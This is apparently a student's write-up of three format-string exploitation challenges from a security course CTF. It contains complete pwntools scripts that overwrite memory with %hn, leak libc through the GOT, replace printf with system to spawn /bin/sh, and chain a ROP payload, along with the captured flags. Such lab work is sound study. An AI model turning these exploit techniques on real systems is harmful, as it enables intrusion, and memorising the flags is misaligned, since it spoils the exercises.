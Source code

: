 ## 1

![image-20241119155232927](https://bu.dusays.com/2024/11/19/673c43c5182fc.png)

偏移量为 8





![image-20241103120947693](https://bu.dusays.com/2024/11/19/673c435035b16.png)

ssec2024{f0rmat_0v3rr1d3_succ3ss|dafc0b3b}



```python
from pwn import *

# target = process('./fsb1')
target = remote('8.154.20.109', 10300)
target.recv()
target.sendline("3220103544")

target.recvuntil(b"address of x is: ")
x_addr = eval(target.recv(14).decode())
print(f"Address of x: {hex(x_addr)}")


payload = ""
payload += "%1c%9$hn"
payload = payload.encode().ljust(8, b"\x00")
payload += p64(x_addr)


target.recv()
target.sendline(payload)

target.interactive()
```



## 2

![image-20241104191837057](https://bu.dusays.com/2024/11/05/672a397213a50.png)

偏移量为6



![4a5e76311a569c68eb1ca4a50fb5adf](https://bu.dusays.com/2024/11/05/672a395f46091.png)

You flag: ssec2024{g0t_0v3rrid3_2_sh3ll|aa24ca75}

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

p = remote("8.154.20.109", 10301)
# p = process("./fsb2")

elf = ELF("./fsb2")
libc = ELF("./libc.so")

p.sendlineafter(b"Please input your StudentID:\n", str(3220103544))
p.recv()
# fmt = FmtStr(execute_fmt=lambda payload: {
#     p.sendline(payload),
#     p.recvuntil('\n')
# })
offset = 6

payload1 = flat([
    b'%7$s'.ljust(8, b'\x00'),
    elf.got['printf']
])
p.sendline(payload1)

printf_addr = u64(p.recv(6).ljust(8, b'\x00'))

libc_base = printf_addr - libc.sym['printf']
system_addr = libc_base + libc.sym['system']

payload2 = fmtstr_payload(offset, {elf.got['printf']: system_addr})
p.sendline(payload2)

p.recv()

p.sendline(b'/bin/sh')
p.interactive()

```



## bonus

![image-20241105230947334](https://bu.dusays.com/2024/11/05/672a394d10774.png)

我们断在 printf函数后随便输点东西。

分析栈上关键数据，调用函数栈帧基指针链为 `0x7fffffffdb50 —▸ 0x7fffffffdb70 —▸ 0x7fffffffdb90`

![image-20241119172302318](https://bu.dusays.com/2024/11/19/673c58fa5229e.png)

![image-20241119171816107](https://bu.dusays.com/2024/11/19/673c57dc191a5.png)

![image-20241119171348487](https://bu.dusays.com/2024/11/19/673c56d0ac1c2.png)



ROP链的执行流程：

1. 第一个gadget(`pop rdi; ret`)：

```
rdi    # 将buffer_addr + 0x90(指向"/bin/sh")弹到rdi
ret        # 跳转到vuln_skip_push_rsp
```

1. 跳转到vuln函数：

- vuln函数会调用system(rdi)
- 此时rdi指向"/bin/sh"
- 最终执行system("/bin/sh")

![image-20241119171033055](https://bu.dusays.com/2024/11/19/673c560d485f8.png)

ssec2024{Format_String_Exploits_Are_Powerful|18d39357}

```python
from pwn import *

context.arch = "amd64"
context.log_level = "DEBUG"

bin_name = "./bonus"
# p = process("./bonus")
p = remote("8.154.20.109", 10302)
libc = ELF("./libc.so")
elf = ELF("./bonus")
p.recvuntil(b"Please input your StudentID:\n")
p.sendline(str(3220103544).encode())
p.recv()

STACK_OFFSET_A = 8  # 泄露栈地址的偏移
STACK_OFFSET_B = STACK_OFFSET_A + (0x30 - 0x10) // 8
BUFFER_ADDR = 0x004050A0
POP_RDI_RET = 0x004011d9
VULN_SKIP_PUSH = 0x0040126E

# 泄露栈地址
leak_fmt = f"%{STACK_OFFSET_A}$p".encode()
payload = leak_fmt.ljust(8, b"\x00")

p.sendline(payload)

leak = eval(p.recv(14).decode())
stack_ret = leak - 0x20
stack_a = stack_ret - 0x8
print(f"leak: {hex(leak)}")

# 构建ROP链
rop = b"A" * 8
rop += p64(POP_RDI_RET)
rop += p64(BUFFER_ADDR + 0x90)  # /bin/sh字符串的地址
rop += p64(VULN_SKIP_PUSH)

# 构建格式化字符串payload
fmt = "%c" * 6
fmt += f"%{stack_ret % 0x10000 - 6}c%hn"
fmt += f"%{BUFFER_ADDR + 0x40 - stack_ret % 0x10000}c%{STACK_OFFSET_B}$lln"

payload = fmt.encode().ljust(0x40, b"\x00")
payload += rop
payload = payload.ljust(0x90, b"\x00")
payload += b"/bin/sh\x00"
p.sendline(payload)
p.recv()

p.interactive()
```


